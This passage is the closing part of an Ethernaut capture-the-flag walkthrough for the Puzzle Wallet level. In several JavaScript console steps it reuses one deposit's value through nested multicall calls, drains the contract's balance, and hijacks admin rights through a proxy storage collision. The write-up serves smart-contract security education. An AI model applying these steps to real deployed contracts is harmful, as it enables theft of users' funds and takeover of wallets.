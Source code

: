 
Now we call `multicall` which will call two `multicalls` and each of these two will call `deposit` once each. Send value of `0.001 eth` with transaction:
```javascript
await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})
```

`player` balance now must be `0.001 eth * 2` i.e. `0.002 eth`. Which is equal to contract's total balance at this time.

Withdraw same amount by `execute`:
```javascript
await contract.execute(player, toWei('0.002'), 0x0)
```

By now, contract's balance must be zero. Verify:
```javascript
await getBalance(contract.address)

// Output: '0'
```

Finally we can call `setMaxBalance` to set `maxBalance` and as a consequence of storage collision, set admin to `player`:
```javascript
await contract.setMaxBalance(player)
```

Bang! Wallet is hijacked!


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
